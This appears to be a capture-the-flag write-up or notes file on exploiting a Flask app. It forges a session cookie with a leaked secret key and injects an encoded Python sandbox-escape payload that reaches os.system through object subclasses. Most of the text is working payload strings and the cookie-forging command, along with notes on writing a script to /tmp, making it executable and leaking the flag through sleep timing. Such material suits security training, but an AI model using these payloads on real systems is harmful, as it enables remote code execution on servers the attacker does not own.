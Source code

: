 # Final

As i had been able to execute commands through os.system, due to (exec builtins leak < google that).
I wanted to create python script to mess around the system, but payload size needs to be <300; so that i had to echo every single character to /tmp in very specyfic format;
i cant use quote "", (cuz of payload size=301!); to avoid that i will be using only for and arrays containing int representations of strings (we dont need use quotes anymore)
then echo -e to /tmp/b file.

![script execution](https://i.imgur.com/XULqP7l.png)

### Executing file /tmp/b
I had to raise priviliegies by using os.chmod("tmp/b", 448) in base command (it worked!)

### Thats all
Gaining flag was so bad due to no socket (no rev shell) and everything is happening thanks to time.sleep(22):
logic:
ord("a") = 50 then sleep(50 * 0.2) -> sleep 25 sec.
finito.


### encoding token
(venv) PS C:\Users\wojci\flask-session-cookie-manager> python .\edited.py encode -s "tlci0GhK8n5A18K1GTx6KPwfYjuuftWw" -t "dasdsad"


### manual vulnerable json 

```
cls && python flask_session_cookie_manager3.py encode -s "tlci0GhK8n5A18K1GTx6KPwfYjuuftWw" -t "{'ingredient': b'a=\'\'\nfor i in 40,\")\",46,95,95,\"class\",95,95,46,95,95,\"bases\",95,95,91,\"0]\",46,95,95,\"subclasses\",95,95,40,\")\",91,\"60]\",40,\")\",46,95,\"module\",46,95,95,\"builtins\",95,95,91,\"\'\",95,95,\"import\",95,95,\"\']\",40,\"\'os\')\",46,\"system\",40,\"\'type kur*\')\":\n\ttry:\n\t\ta+=\'%c\'%i\n\texcept:\n\t\ta+=\'%s\'%i\nexec a#', 'measurements': 'a'}"
```




### GENERATED - number_to_char.py

```
'a=\'\'\nfor i in 40,")",46,95,95,"class",95,95,46,95,95,"bases",95,95,91,"0]",46,95,95,"subclasses",95,95,40,")",91,"60]",40,")",46,95,"module",46,95,95,"builtins",95,95,91,"\'",95,95,"import",95,95,"\']",40,"\'os\')",46,"system",40,"\'dir\')":\n\ttry:\n\t\ta+=\'%c\'%i\n\texcept:\n\t\ta+=\'%s\'%i\nexec a'
```

### MANUAL

```
"a=''\nfor i in 40,\")\",46,95,95,\"class\",95,95,46,95,95,\"bases\",95,95,91,\"0]\",46,95,95,\"subclasses\",95,95,40,\")\",91,\"59]\",40,\")\",46,95,\"module\",46,95,95,\"builtins\",95,95,91,\"'\",95,95,'import',95,95,\"']\",40,\"'os')\",46,\"system\",40," + important_param + ":\n\ttry:\n\t\ta+='%c'%i\n\texcept:\n\t\ta+='%s'%i\nexec a#\'"

```

# SOME ERROR
	syntax_to_payload = r"().__class__.__bases__[0].__subclasses__()[59]()._module.__builtins__['__import__']('os').system(\"echo '\t\t\tty'\")"

echo during os.system does automatically -e (not Escapes \t\n)



# Idea that may solve problem with small amount of size (<300)

-Create new file (touch /tmp/a),
-Create new file descriptor (small bash cmd eg. exec 1337<>/tmp/a),
-Now we can append to that file stream (REMEMBER! there is a pointer that goes on after every write, it goes on and on!)

# Use a code object form of a function



# os.system cannot escape echoing to file, so that os.popen2 will be used eg.
```
os.popen4('echo "xdsfdf\nfdgfdg">b')
```


SHOULDNT BE:
('payload', 'a=""\nfor i in 40,")",46,95,95,"class",95,95,46,95,95,"bases",95,95,91,"0]",46,95,95,"subclasses",95,95,40,")",91,"59]",40,")",46,95,"module",46,95,95,"builtins",95,95,91,"\'",95,95,"import",95,95,"\']",40,"\'os\')",46,"system",40,"\\\'echo -n ")">>b\\\')":\n\ttry:\n\t\ta+="%c"%i\n\texcept:\n\t\ta+="%s"%i\nexec a#')


SHOULD BE:
('payload', 'a=""\nfor i in 40,")",46,95,95,"class",95,95,46,95,95,"bases",95,95,91,"0]",46,95,95,"subclasses",95,95,40,")",91,"59]",40,")",46,95,"module",46,95,95,"builtins",95,95,91,"\'",95,95,"import",95,95,"\']",40,"\'os\')",46,"system",40,"\\\'echo -n )>>b\\\')":\n\ttry:\n\t\ta+="%c"%i\n\texcept:\n\t\ta+="%s"%i\nexec a#') 


actually works:
>> a = '().__class__.__bases__[0].__subclasses__()[59]()._module.__builtins__[\'__import__\'](\'os\').system(\'echo -n \"hej\"\')'






dobre
('payload', u'a=""\nfor i in 40,")",46,95,95,"class",95,95,46,95,95,"bases",95,95,91,"0]",46,95,95,"subclasses",95,95,40,")",91,"59]",40,")",46,95,"module",46,95,95,"builtins",95,95,91,"\'",95,95,"import",95,95,"\']",40,"\'os\')",46,"system",40,"\'echo -n \\"a\\">>b\')":\n\ttry:\n\t\ta+="%c"%i\n\texcept:\n\t\ta+="%s"%i\nexec a#')

zle:

('payload', u'a=""\nfor i in 40,")",46,95,95,"class",95,95,46,95,95,"bases",95,95,91,"0]",46,95,95,"subclasses",95,95,40,")",91,"59]",40,")",46,95,"module",46,95,95,"builtins",95,95,91,"\'",95,95,"import",95,95,"\']",40,"\'os\')",46,"system",40,"\'echo -n \\"",10,"\\">>b\')":\n\ttry:\n\t\ta+="%c"%i\n\texcept:\n\t\ta+="%s"%i\nexec a#')
